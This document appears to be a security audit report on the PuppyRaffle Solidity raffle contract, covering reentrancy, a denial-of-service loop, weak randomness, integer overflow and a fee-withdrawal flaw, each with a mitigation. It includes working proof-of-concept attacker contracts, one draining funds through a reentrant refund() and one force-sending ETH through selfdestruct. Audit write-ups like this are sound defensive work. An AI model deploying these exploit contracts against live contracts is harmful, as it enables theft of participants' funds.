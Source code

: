 # PuppyRaffle Security Review

## Overview
This document contains the findings of the PuppyRaffle smart contract security review.

## Severity Classification
- High: Vulnerabilities that can lead to loss of funds or complete contract failure
- Low: Issues that should be fixed but don't pose immediate risks

## Findings Summary
- 5 High severity findings
- 1 Low severity finding

## Detailed Findings

### [H-1] Reentrancy in `PuppyRaffle::refund()` allows attacker to drain all the funds from the contract

**Description:** The `PuppyRaffle::refund()` function doesn't follow CEI (Checks, Effects, Interactions) pattern. A malicious actor can exploit this by creating a contract with a fallback/receive function that calls `refund()` again when receiving ETH, allowing them to repeatedly withdraw funds before their player status is removed. This can continue until the contract's balance is drained.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    
  @>    payable(msg.sender).sendValue(entranceFee);
        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

**Impact:** An attacker can drain all ETH from the contract, stealing funds from other participants and making the raffle system inoperable.

**Proof of Concept:**
<details>
<summary>PoC</summary>

```javascript
//SPDX-License-Identifier: MIT;
pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";

contract ReentrancyAttacker {
    PuppyRaffle target;
    uint256 playerIndex;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }
    
    function attack() public {
        address[] memory players = new address[](1);
        players[0] = address(this);
        target.enterRaffle{value: target.entranceFee()}(players);
        playerIndex = target.getActivePlayerIndex(address(this));
        target.refund(playerIndex);
    }

    receive() external payable {
        if (address(target).balance >= 1 ether) {
            target.refund(playerIndex);
        }
    }
}
```
</details>

**Recommended Mitigation:** Update the `refund()` function to follow the CEI pattern by moving the state changes before the external call:

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

### [H-2] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle()` is a potential DoS attack

**Description:** The `PuppyRaffle::enterRaffle()` function loops through the `players` array to check for duplicates. However, the longer the `PuppyRaffle::players` array is, the more gas costs for future entrants. Every additional address in the `players` array is an additional check the loop have to make.

```javascript
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
```

**Impact:** The gas costs for raffle entrants will greatly increase as more players enter the raffle. Discouraging later users from entering, and causing a rush at the start of a raffle to be one of the first to enter. An attacker might make the `PuppyRaffle::players` array so big that no one else enters, guaranteeing themselves the win.

**Proof of Concept:**
If we have 2 sets of 100 players enter, the gas costs will be as such:
- 1st 100 players: ~6,252,037 gas
- 2nd 100 players: ~20,376,508 gas

<details>
<summary>PoC</summary>

```javascript
function test_denialOfService() public {
    vm.txGasPrice(1);
    address USER = makeAddr("user");
    vm.deal(USER, 1000000 ether);
    uint256 numPlayers = 200;
    address[] memory newPlayers = new address[](numPlayers);

    for (uint256 i = 0; i < numPlayers; i++) {
        newPlayers[i] = address(i);
    }

    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(newPlayers);
    uint256 gasEnd = gasleft();
    uint256 gasUsed = gasStart - gasEnd;
    console.log(gasUsed);
}
```
</details>

**Recommended Mitigation:** Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a wallet has already entered:

```diff
+ uint256 public raffleID;
+ mapping (address => uint256) public usersToRaffleId;

    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");

        for (uint256 i = 0; i < newPlayers.length; i++) {
+           // Check for duplicates
+           require(usersToRaffleId[newPlayers[i]] != raffleID, "PuppyRaffle: Already a participant");
            players.push(newPlayers[i]);
+           usersToRaffleId[newPlayers[i]] = raffleID;
        }

-       // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }

        emit RaffleEnter(newPlayers);
    }

    function selectWinner() external {
        //Existing code
+       raffleID = raffleID + 1;        
    }
```

### [H-3] `PuppyRaffle::selectWinner()` uses weak randomization for winner selection

**Description:** The use of keccak256 hash functions on predictable values like block.timestamp, block.number, or similar data, including modulo operations on these values, should be avoided for generating randomness, as they are easily predictable and manipulable. The PREVRANDAO opcode also should not be used as a source of randomness.

**Impact:** Weak randomization can lead to predictable winner selection, potentially allowing an attacker to manipulate the outcome of the raffle.

**Recommended Mitigation:** Utilize Chainlink VRF for cryptographically secure and provably random values to ensure protocol integrity.

### [H-4] Integer overflow vulnerability in `PuppyRaffle::totalFees` allows fees to be reset

**Description:** In Solidity versions prior to 0.8.0, arithmetic operations can overflow/underflow without reverting. The `PuppyRaffle` contract uses Solidity 0.7.6 and declares `totalFees` as a `uint64`, which can only store values up to 2^64 - 1 (18,446,744,073,709,551,615).

```javascript
contract PuppyRaffle {
    uint64 public totalFees = 0;
    ...
}
```

**Impact:** The contract owner could lose fee revenue when `totalFees` overflows if totalfees greater than 18,446,744,073,709,551,615 (~18.5 ethers).

**Proof of Concept:**
```javascript
uint64 totalFees = 18446744073709551615;
totalFees = totalFees + 1;
console.log(totalFees);
// result is 0
```

**Recommended Mitigation:** Change `totalFees` to use `uint256` instead of `uint64` to prevent overflow:

```diff
contract PuppyRaffle {
-    uint64 public totalFees = 0;
+    uint256 public totalFees = 0;
}
```

Alternatively, upgrade to Solidity 0.8.0 or later which includes built-in overflow protection.

### [H-5] WithdrawFees can be broken if someone sends ETH directly to the contract

**Description:** The `PuppyRaffle::withdrawFees()` function checks if the contract balance is equal to `totalFees`. If someone sends some ETH to the contract, it will break the withdrawFees function.

**Impact:** The owner can't withdraw the fees.

**Proof of Concept:**
<details>
<summary>PoC</summary>

```javascript
//SPDX-License-Identifier: MIT;
pragma solidity ^0.7.6;

import {PuppyRaffle} from "../../src/PuppyRaffle.sol";

contract WithdrawFeesAttacker {
    PuppyRaffle target;

    constructor(address _target) payable {
        target = PuppyRaffle(_target);
    }

    function attack() public {
        selfdestruct(payable(address(target)));
    }
}
```
</details>

**Recommended Mitigation:** Change the logic of withdrawFees and consider withdrawing all the balance instead of checking if it's equal to totalFees.

### [L-1] `PuppyRaffle::withdrawFees()` cannot withdraw fees while players are in the raffle

**Description:** The `PuppyRaffle::withdrawFees()` function checks if there are any players in the raffle, and if there are, it prevents the owner from withdrawing the fees.

**Impact:** The owner can't withdraw the fees if there are players in the raffle.

**Proof of Concept:**
```javascript
function withdrawFees() external {
    require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    uint256 feesToWithdraw = totalFees;
    totalFees = 0;
    (bool success,) = feeAddress.call{value: feesToWithdraw}("");
    require(success, "PuppyRaffle: Failed to withdraw fees");
}
```

**Recommended Mitigation:** Modify the withdrawFees logic to allow withdrawal while there are players in the raffle:

```diff
function withdrawFees() external {
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
    uint256 feesToWithdraw = totalFees;
    totalFees = 0;
    (bool success,) = feeAddress.call{value: feesToWithdraw}("");
    require(success, "PuppyRaffle: Failed to withdraw fees");
}
```
